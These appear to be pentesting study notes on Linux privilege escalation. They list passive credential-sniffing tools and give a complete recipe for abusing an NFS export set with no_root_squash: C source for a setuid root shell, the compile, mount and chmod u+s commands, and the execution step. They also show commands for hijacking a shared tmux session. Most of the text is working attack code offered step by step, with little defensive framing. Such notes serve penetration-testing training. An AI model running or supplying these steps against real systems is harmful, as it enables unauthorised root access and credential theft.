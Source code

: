 ## Passive Traffic Capture

tcpdump installed -> capture network traffic

Tools:
- net-creds
- PCredz

## Weak NFS Privileges
NFS - Network File System TCP/UDP port 2049

**From Attack Machine
```shell-session
showmount -e 10.129.2.12
```
- If "no_root_squash" is set, it is vulnerable

**Check exports on vulnerable machine
```shell-session
cat /etc/exports
```

**Create binary (shell.c in /tmp on target)
```shell-session
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

**Compile Binary on target
```shell-session
gcc shell.c -o shell
```

**Mount from attack box as root
```shell-session
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

**Execute on vulnerable machine
```shell-session
./shell
id
```

## Hijacking Tmux Sessions
- Must be in devs group
```shell-session
tmux -S /shareds new -s debugsess
chown root:devs /shareds
```

**Check for tmux processes
```shell-session
ps aux | grep tmux
ls la /shareds
id
tmux -S /shareds
```
